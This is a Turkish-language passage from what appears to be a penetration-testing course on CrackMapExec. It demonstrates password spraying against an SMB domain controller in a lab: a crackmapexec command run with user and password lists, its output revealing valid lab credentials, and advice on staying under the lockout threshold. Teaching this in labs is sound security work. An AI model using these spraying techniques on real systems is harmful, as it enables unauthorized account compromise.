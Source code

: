 Ayrıca, her kullanıcı için tüm parolaları test edecek olan passwords.txt gibi bir dosya ile bir parola listesi sağlayabiliriz, bu password spraying için yararlı olabilir, ancak bir Hesap Kilitleme politikası ayarlandığında çok fazla değil. Hesap Kilitleme konusunu bu bölümün ilerleyen kısımlarında ele alacağız.

Hesap kilitlemenin 5 olarak ayarlandığını biliyorsak, bir hesabın kilitlenmesini önlemek için 2 veya 3 paroladan oluşan bir parola listesi oluşturabiliriz.


### Bir Liste İçeren Username'ler ile Bir Password List Kullanarak Password Attack

```
crackmapexec smb 10.129.203.121 -u users.txt -p passwords.txt

SMB 10.129.203.121 445 DC01 [*] Windows 10.0 Build
17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True)
(SMBv1:False)
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\noemi:Inlanefreight01! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\noemi:Inlanefreight02! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\noemi:Inlanefreight03! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\david:Inlanefreight01! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\david:Inlanefreight02! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\david:Inlanefreight03! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\carlos:Inlanefreight01! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [+]
inlanefreight.htb\carlos:Inlanefreight02!
```


### Bir User ile Bir Password'ün Eşleşmesini Bir Wordlist Kullanarak Kontrol Etme

CME'nin bir başka harika özelliği de, her kullanıcının parolasını biliyorsak ve hala geçerli olup olmadıklarını test etmek istiyorsak. Bunun için `--no-bruteforce` seçeneğini kullanın. Bu seçenek 1. kullanıcıyı 1. parola ile, 2. kullanıcıyı 2. parola ile ve bu şekilde kullanacaktır.

### Bruteforcing Devre dışı bırak

```
cat userfound.txt
grace
carlos
```

```
cat passfound.txt
Inlanefreight01!
Inlanefreight02!
```

